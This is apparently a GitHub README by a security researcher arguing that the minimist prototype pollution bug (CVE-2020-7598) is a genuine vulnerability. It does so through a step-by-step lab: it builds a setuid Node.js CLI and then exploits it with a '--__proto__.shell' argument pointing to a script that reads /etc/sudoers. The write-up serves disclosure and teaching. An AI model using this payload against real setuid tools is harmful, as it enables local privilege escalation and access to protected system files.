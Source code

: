 # Prototype Pollution in minimist

What hadn't been said about prototype pollution vulnerabilities?

One thing we can all agree on is that it's a controversial topic and some may view it as a vulnerability while others will completely dismiss it.

## Minimist and CVE-2020-7598

Snyk reported the [prototype pollution minimist vulnerability](https://snyk.io/vuln/SNYK-JS-MINIMIST-559764) in March 2020, assigning it CVE-2020-7598, and even detailed step-by-step proof of concept and rational in a [blog post](https://snyk.io/blog/prototype-pollution-minimist) on how this vulnerability works.

Yet still, people claim this is not a vulnerability. **Let's prove them wrong**.

You want to prove me wrong? I challenge you to show me how you are exploiting the program we build in the following steps in a way that is unrelated to prototype pollution in minimist and gain local root privilege in a Node.js program that spawns commands.

## Exploiting CLIs built with minimist

To make my point about this minimist vulnerability being legitimate we need first to make sure that we agree on the following basic assumption: Developers, DevOps engineers, IT engineers, SREs or others may use Node.js as a platform to build CLI tools.

This is our story:

- A DevOps engineer builds a simple CLI tool in Node.js, using minimist to parse command arguments.
- The CLI is packaged using Zeit's [pkg](https://www.npmjs.com/package/pkg) so that the project's JavaScript files and its dependencies can be conveniently distributed as a single-file binary.
- The CLI is then provided to un-privileged users in a server or Desktop environment, and allows them to view a file that without the CLI only root is allowed to open, but the CLI makes it accessible for them. Reminder: those users are normal users, and aren't root-level users so they shouldn't be able to access other root-protected files in the file system.

### Scaffold a project

Let's begin by building out the project for this CLI, and we'll use `minimist` as a popular npm package that allows us to parse command arguments:

```sh
mkdir /tmp/my-app
cd /tmp/my-app
npm init -y
npm install --save minimist@1.2.0
```

### Build the CLI

The private file that the DevOps engineer wants to make available for users to access is `/etc/my-private-file.txt` and they build the code for it as follows:

filename: test.js

```js
const argv = require("minimist")(process.argv.slice(2));
const cp = require("child_process");
if (argv.help) {
  console.log("Just run me to view the file...");
} else {
  cp.execSync("cat /etc/my-private-file.txt", { stdio: "inherit", uid: 0 });
}
```

### Create the private file

Let's create that private file:

```sh
sudo -i
#provide your macOS user's password here
# now you should be dropped into a root user account:

echo "this is private" > /etc/my-private-file.txt

# make sure only root user is allowed to read/write to this file
chmod 600 /etc/my-private-file.txt

exit
# now you should be back in your user account
```

To test that indeed only the root user is allowed to read/write to this file, now that you are dropped back to your user's shell try to view it which should result in a permission error:

```sh
cat /etc/my-private-file.txt
```

At this point, even if you try to run the CLI that we've built you will get a permission error:

```sh
node test.js
```

### Package the file and assign it root permissions

We will need to install [pkg](https://www.npmjs.com/package/pkg) and use it to package our CLI as a single-file executable binary:

```sh
npm install --save-dev pkg
```

We can then package it for macOS:

```sh
./node_modules/.bin/pkg test.js --target node12-macos-x64
```

You should now have a resulting `test` file (the `.js` extension is ommited) that is about 42 Megabytes in size as it bundles Node.js inside it.

Executing it of course, still doesn't work.
We need to use the stuid trick in Unix systems that allows programs that have it enabled to assume permissions of the user who owns them, and so:

```sh
sudo chown root test
sudo chmod 4555 test
```

Now execute our Node.js CLI:

```sh
./test
```

And you should see `this is private` printed to the console.

### Exploiting minimist

There's another kind of protected file like ours in your file system called `/etc/sudoers`. Go ahead and try to view it using your regular user:

```sh
cat /etc/sudoers
```

You should get another permission error because you can't view it unless you are the root user. **OR** unless you are running a stuid program that executes commands as the root user.

At this point, you are welcome to try any way you want to view that `/etc/sudoers` file but remember: you don't actually have the root password and you can't really do `sudo /etc/sudoers`. We only used your regular user's sudo access to build this CLI and make it available for users.

Without access to `sudo`, you're welcome to try and exploit the Node.js runtime on your system to access `/etc/sudoers`. Wait, who even said you have Node.js. You don't, but even if you want to assume you have it you're welcome to try. You're also welcome to modify the `test` binary, but you can't either because you have no access to modify it.

**Here comes the prototype pollution vulnerability in minimist:**

You can definitely create some ad-hoc files, so let's do that:

```sh
echo '#!/bin/sh\ncat /etc/sudoers' > /tmp/exploit
chmod +x /tmp/exploit
```

We created our own small shell script that prints the contents of the file and made it executable.

Try to run it.
Epic failure. Because we can't access that file. Remember? it is root-protected.

However, due to the fact that minimist suffers from prototype pollution vulnerabilities, or in other words - we can provide it with a key and value as command line argument, that will allow us to set the shell of the invoked command in the `test.js` program as our own little CLI, which by the way, prints the contents of the root-protected `/etc/sudoers` file, which users shouldn't be able to access and aren't meant to either.

Exploit away:

```sh
./test --__proto__.shell /tmp/exploit
```

Run it and view the contents of the file.
You have just witnessed local privilege escalation, a type of vulnerability that allows non-root users to gain root-level access to a system.

## Determining the vulnerable component

So, what is vulnerable here actually?

IETF [defines](https://tools.ietf.org/html/rfc4949) a vulnerability as:

> A flaw or weakness in a system's design, implementation, or operation and management that could be exploited to violate the system's security policy

The use of minimist as a 3rd party library in our `test` program is the root cause of for making it vulnerable.

Furthermore, [CVSS 3.1 specficaition update](https://www.first.org/cvss/v3.1/user-guide) for scoring vulnerabilities in software libraries enhances:

> When scoring the impact of a vulnerability in a library, independent of any adopting program or implementation, the analyst will often be unable to take into account the ways in which the library might be used. While specific products using the library should generate CVSS scores specific to how they use the library, scoring the library itself requires assumptions to be made. The analyst should score for the reasonable worst-case implementation scenario. When possible, the CVSS information should detail these assumptions.

# Author

Liran Tal <liran.tal@gmail.com>
